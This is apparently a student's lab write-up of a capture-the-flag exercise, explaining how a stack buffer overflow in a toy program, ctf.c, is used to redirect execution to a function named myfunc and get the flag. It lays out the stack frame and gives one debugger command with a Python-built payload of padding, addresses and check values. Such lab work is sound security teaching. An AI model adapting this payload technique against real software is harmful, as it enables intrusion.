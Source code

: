 # 21110755, Phạm Văn Cao

#Lab#2 Conduct attack on ctf.c

In this lab, we will exploit a buffer overflow vulnerability in the ctf.c program. Specifically, we will take advantage of the vuln function by overwriting stack values to redirect the program’s execution to the myfunc function, bypass its checks, and retrieve the flag.

we have stack frame:

![alt text](img/1.png)

| Stack frame             | Replace value                                                          | Hình ảnh               |
| ----------------------- | ---------------------------------------------------------------------- | ---------------------- |
| `buf + EBP`             | Replace with 104 'a' characters                                        |                        |
| Return address          | Replace with the address of the myfunc function                        | ![alt text](img/2.png) |
| Tạo file                | Create flag1.txt to pass the check in myfunc                           | ![alt text](img/3.png) |
| Parameter `s` (4 bytes) | Replace with the address of the exit function to exit myfunc           | ![alt text](img/4.png) |
| 8 bytes                 | Replace with the values of p and q to pass the if conditions in myfunc | ![alt text](img/5.png) |

The following command will trigger the buffer overflow using Python to craft the payload, then run the ctf program:

r $(python -c "print('a'\*104+'\x1b\x85\x04\x08'+'\xe0\x83\x04\x08'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")

After executing the above command, we will see that the myfunc function is successfully reached, and the flag is retrieved after bypassing the conditions:

![alt text](img/6.png)
